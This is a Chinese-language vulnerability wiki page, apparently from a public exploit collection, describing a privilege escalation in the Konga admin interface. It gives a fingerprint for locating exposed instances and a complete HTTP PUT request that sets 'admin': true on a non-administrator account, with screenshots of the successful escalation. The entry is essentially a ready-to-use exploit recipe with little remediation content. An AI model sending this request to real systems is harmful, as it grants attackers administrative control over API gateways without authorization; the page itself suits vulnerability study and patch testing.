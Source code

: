 # Konga 普通用户越权获取管理员权限漏洞

## 漏洞描述

Konga 普通用户通过发送特殊的请求可越权获取管理员权限

## 漏洞影响

<a-checkbox checked>Konga</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"konga"</a-checkbox></br>

## 漏洞复现

登录页面



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131947280.png)



创建非管理员用户后登录并获取token

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131947390.png)



发送请求包, 将token修改为刚刚获取的

```plain
PUT /api/user/7 HTTP/1.1
Host: 127.0.0.1:1337
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 241

{
  "admin": true,
  "passports": {
    "password": "1234abcd",
    "protocol": "local"
  },
  "password_confirmation": "1234abcd",
  "token": "non-administrator user token"
}
```

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131947376.png)

成功转为管理员用户

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131947324.png)